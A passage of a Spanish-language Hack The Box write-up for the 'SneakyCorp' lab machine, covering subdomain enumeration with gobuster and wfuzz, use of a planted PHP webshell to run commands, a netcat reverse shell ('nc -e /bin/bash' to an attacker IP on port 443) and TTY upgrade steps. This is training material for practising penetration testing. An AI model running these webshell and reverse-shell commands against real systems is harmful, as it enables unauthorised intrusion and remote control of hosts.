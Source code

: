 - `http://sneakycorp.htb/s4vishell.php`
- `http://10.10.10.197:8080/s4vishell.php`
- `http://10.10.10.197:8080/dev/s4vishell.php`

pero nada. Aqui pensamos en que podria tener otros subdominios.

### Descubrimientos de subdominios de dos formas {-}

#### Descubrimiento de subdominios con GOBUSTER {-}

```bash
gobuster vhost -u http://sneakycorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Descubrimiento de subdominios con WFUZZ {-}

```bash
wfuzz -c -t 200 --hw=12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.sneakycorp.htb" http://10.10.10.197
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Retocamos en hosts {-}

```bash
nano /etc/hosts
```

```{r, echo = FALSE, fig.cap="hosts dev.sneakycorp.htb", out.width="90%"}
    knitr::include_graphics("images/hosts-dev-sneakycorp.png")

![hosts-dev-seakycor](/assets/images/hosts-dev-sneakycorp.png) 
Como aqui ya tenemos un nuevo dominio browseamos la web en `dev.sneakycorp.htb/s4vishell.php` y ahora si encontramos nuestra webshell.

- whoami con `dev.sneakycorp.htb/s4vishell.php?cmd=whoami`
- verificamos si estamos en un contenedor con `dev.sneakycorp.htb/s4vishell.php?cmd=hostname -I`

no es el caso y tenemos capacidad de remote code execution. Ahora intentamos ganar acceso al sistema.
## Explotacion de vulnerabilidad & Ganando acceso {-}

### Crear una reverse shell con s4vishell.php {-}

1. Escuchamos por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Ejecutamos una reverse shell 

    ```bash
    dev.sneakycorp.htb/s4vishell.php?cmd=nc -e /bin/bash 10.10.14.20 443
    ```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
```